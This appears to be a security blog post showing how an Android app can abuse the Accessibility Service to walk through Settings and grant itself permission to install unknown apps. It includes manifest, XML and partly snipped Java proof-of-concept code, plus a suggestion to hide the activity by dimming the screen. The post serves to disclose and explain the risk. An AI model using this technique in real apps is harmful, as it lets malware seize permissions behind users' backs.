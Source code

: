 ## About Android security

### [~$ cd ..](../)

### ~$ cat How_an_Android_app_could_escalate_its_privileges.txt

### About Accessibility Service

A few months ago, I heard about the malware Shedun, abusing the Accessibility Service of Android in order to do the bad things malwares do. In my opinion,
it's as simple as it's clever. As the documentation says:

>Accessibility services **should** only be used to assist users with disabilities in using Android devices
>and apps. They run in the background and receive callbacks by the system when AccessibilityEvents are fired. Such events denote some state transition in
>the user interface, for example, the focus has changed, a button has been clicked, etc. Such a service can optionally request the capability for querying
>the content of the active window. Development of an accessibility service requires extending this class and implementing its abstract methods."

In other words, it's a kind of component being put between the application and the user. Is it a good thing ? On one hand, yes, it is. AS makes the app more usable, and as we can read in the doc:
_Note: Although it's beneficial to add accessibility features in your app, you should use them only for the purpose of helping users with disabilities interact with your app._

On the other hand, as we can easily imagine, there will be some problems in case of misuse ... Indeed, a malicious application implementing this service could then "capture" the screen before display and interact with.

Actually, it could be harmless (or at least to a lesser extent), if the service was not able to interact with other applications. Imagine how dangerous an application upgrading its privileges could be... 

Does it seem so unrealistic ? Let's take a closer look ...

### Setting up an Accessibility Service

To create an Accessibility Service an application has to register it in the Manifest.xml, for example

> ```xml
> <service android:name=".services.CustomAccessibilityService"
>	android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
>	<intent-filter>
>	<action android:name="android.accessibilityservice.AccessibilityService"/>
>	</intent-filter>
>	<meta-data android:name="android.accessibilityservice"
>		android:resource="@xml/accessibility_config"/>
> </service>
> ```

The configuration could be done in Java, but some parameters (the most interesting ones actually) can only be set using XML:

> ```xml
><accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
>	android:accessibilityEventTypes="typeWindowContentChanged"
>	android:packageNames="com.android.settings, xyz.noname.spyapp"
>	android:accessibilityFeedbackType="feedbackAllMask"
>	android:notificationTimeout="100"
>	android:canRetrieveWindowContent="true"/>
> ```

We can see in the snippet just above three interesting things:
* the service will be called each time the content of the window changes
* two applications will be concerned: mine and Settings
* the service is allowed to get the content of the current window

### Java part

It's then time to code the class `CustomAccessibilityService`! The class has to extend `AccessibilityService`:

> ```java
>public class CustomAccessibilityService extends AccessibilityService {
>	@Override
>	public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent) {
>	}
>
>	@Override
>	public void onInterrupt() {
>	}
>}
> ```

The routine `onAccessibilityEvent` is the most important here, because it's the one which will allow the developer to catch all events.
In my application I have to make the difference between events coming from my application, and those coming from Settings.
The principle of the application is quite simple:
* check if my app has privileges. If not, launch the app Settings
* reach the panel where my app will toggle the right switch
* go back to my app

_Since it's only a PoC, the code is quite dirty and will probably not work on another device. The one I used on the emulator is a Nexus 5X_

The most difficult part is to browse through the settings and find the right page. To do this, I decided to use a stack containing keywords, and creating a kind
of "path" for my service. Each time the top of the stack is found on a widget, a click is programmatically done. 

Then, since events coming from my application will appear at the beginning, I set up my stack at this moment. For events coming from Settings, a loop is used to follow
the right path.

> ```java
>@Override
>public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent) {
>	switch (accessibilityEvent.getPackageName().toString()){
>		case BuildConfig.APPLICATION_ID:
>			if (stack == null){
>				stack = new Stack<>();
>			}
>			else if (stack.size() != 5){
>				stack.push("spyapp");
>				stack.push("unknown");
>				stack.push("special");
>				stack.push("advanced");
>				stack.push("app");
>			}
>			break;
>		case Constants.PACKAGE_SETTINGS:
>			AccessibilityNodeInfo info = accessibilityEvent.getSource();
>			if (info != null && this.stack != null) {
>				for (int i = 0; i < info.getChildCount(); i++) {
>					lookForPermissionsPanel(info.getChild(i));
>				}
>			}
>		break;
>	}
>}
> ```

Then, the job is done by the routine `lookForPermissionsPanel` which recursively scans the view, and tries to find the string on the top of the stack:

> ```java
>private boolean lookForPermissionsPanel(AccessibilityNodeInfo info) {
>	if (info == null)
>		return false;
>	for (int c = 0; c < info.getChildCount(); c++){
>		if (lookForPermissionsPanel(info.getChild(c))) {
>			return true;
>		}
>	}
>	if (info.getText() != null){
>		String text = info.getText().toString().toLowerCase();
>		if (!stack.empty() && (text.contains(stack.peek()) || text.equalsIgnoreCase(stack.peek()))){
>			stack.pop();
>			/**
>			 * <snipped>
>			 * here we deal with clickable widgets. To force the click, we use performAction(AccessibilityNodeInfo.ACTION_CLICK); on the node
>			 * or on its parent. 
>			 * </snipped>
>			 **/
>		}
>		else{
>			/**
>			 * <snipped>
>			 * the stack is empty and we have to deal with the final toggle button, and to close Settings
>			 * </snipped>
>			 **/
>		}
>	}
>	return false;
>}
> ```

_The routine returns true when a widgets has been clicked_

And finally, in the the main activity, we only have to launch Settings if our app doesn't have the desired privileges:
> ```java
>@Override
>protected void onCreate(@Nullable Bundle savedInstanceState) {
>	super.onCreate(savedInstanceState);
>	LinearLayout layout = (LinearLayout) LinearLayout.inflate(this, R.layout.activity_main, null);
>	TextView text = layout.findViewById(R.id.text);
>	text.setText(!getPackageManager().canRequestPackageInstalls() ? "Cannot install unknown apps" : "Allowed to install unknown apps");
>	if (!getPackageManager().canRequestPackageInstalls() && isAccessibilitySettingsOn() && !Util.hasPermission(Manifest.permission.REQUEST_INSTALL_PACKAGES, this)) {
>		Intent intent = context.getPackageManager().getLaunchIntentForPackage(Constants.PACKAGE_SETTINGS);
>		if (intent != null) {
>			intent.addCategory(Intent.CATEGORY_LAUNCHER);
>			startActivity(intent);
>		}
>	}
>	setContentView(layout);
>}
> ```

Where `hasPermission` is a routine returning true if the app has a permission, and `isAccessibilitySettingsOn` is another routine checking if our app is allowed to
use the accessibility service (inspired by [this solution])(https://stackoverflow.com/questions/5081145/android-how-do-you-check-if-a-particular-accessibilityservice-is-enabled)

### So what ?

We might think that it's not terrible since the user will see my app do its malicious job, and react quickly. It's true, but I think about 2 things:
* imagine that the malicious app is designed to do an unrecoverable thing. If the app is fast enough, the damage will be done
* there are maybe some tricks to hide the malicious activity. Let's say, set the brightness to 0 (even if it requires the permission WRITE_SETTINGS. Why not, social engineering is often better than expected)

here is a video showing the app running. As you can see, there is no permission at the beginning, and the app will escalate its privileges by browsing through Settings (the pointer doesn't appear at this moment):

[![video_poc](video.png)](https://youtu.be/7SMHSPEBcAw)
